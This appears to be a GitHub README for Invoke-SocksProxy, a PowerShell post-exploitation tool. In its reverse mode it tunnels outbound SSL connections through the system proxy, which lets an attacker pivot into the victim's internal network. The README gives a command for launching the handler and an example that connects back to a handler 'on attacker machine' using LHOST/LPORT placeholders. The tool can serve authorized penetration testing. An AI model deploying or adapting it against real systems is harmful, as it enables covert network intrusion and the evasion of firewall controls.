 # Invoke-SocksProxy
Creates a local or "reverse" Socks proxy using powershell. The local proxy is a simple Socks 4/5 proxy.

The reverse proxy creates a tcp tunnel by initiating outbond SSL connections that can go through the system's proxy. The tunnel can then be used as a socks proxy on the remote host to pivot into the local host's network.

Merged the script from tokyoneon and from p3nt4 so it works. *Note* Firewall might be on high ports will most likely not work. Run the script, and copy the SHA1 cert fingerprint and past in the the script:
```
sudo python2.7 ReverseSocksProxyHandler.py
```

# Example
Connect back to ProxyHandler on attacker machine with certificate fingerprint.
```
Invoke-ReverseSocksProxy -remotePort LPORT -remoteHost LHOST -certFingerprint 'CERT_FINGERPRINT'
```
